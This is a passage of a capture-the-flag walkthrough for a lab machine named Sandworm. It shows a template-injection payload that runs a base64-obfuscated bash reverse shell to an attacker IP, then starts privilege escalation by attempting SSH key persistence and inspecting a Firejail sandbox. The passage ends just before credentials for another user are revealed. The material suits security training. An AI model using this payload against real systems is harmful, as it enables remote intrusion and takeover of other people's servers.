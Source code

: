 What works is a `base64` encoded bash reverse shell command since the UID of the key cannot have `>` or `<` characters.&#x20;

```
{{ self.__init__.__globals__.__builtins__.__import__('os').popen('echo YmFzaCAtaSA+JiAvZGV2L3RjcC8xMC4xMC4xNC4zLzQ0NDQgMD4mMSAK | base64 -d | bash').read() }}
```

<figure><img src="../../.gitbook/assets/image (27).png" alt=""><figcaption></figcaption></figure>

## Privilege Escalation

### Silentobserver Creds

When trying to write some files, I kept getting this error:

{% code overflow="wrap" %}
```
atlas@sandworm:~/.ssh$ echo 'key' >> authorized_keys
<UKeJR102N+sZgwA/2RE+v kali@kali' >> authorized_keys
bash: authorized_keys: Read-only file system
```
{% endcode %}

Something is blocking us on the machine. There are some other users present on the machine:

```
atlas@sandworm:/home$ l
atlas/  silentobserver/
```

Viewing the user's directory reveals a `firejail` file:

```
atlas@sandworm:~/.config$ s -la
ls -la
total 12
drwxrwxr-x 4 atlas  atlas   4096 Jan 15 07:48 .
drwxr-xr-x 8 atlas  atlas   4096 Jun  7 13:44 ..
dr-------- 2 nobody nogroup   40 Jun 19 19:43 firejail
drwxrwxr-x 3 nobody atlas   4096 Jan 15 07:48 httpie
```

Firejail is a security sandbox which restricts a lot of features, thus explaining why we cannot create files. When looking at the files within this directory, we can find some credentials for the next user:
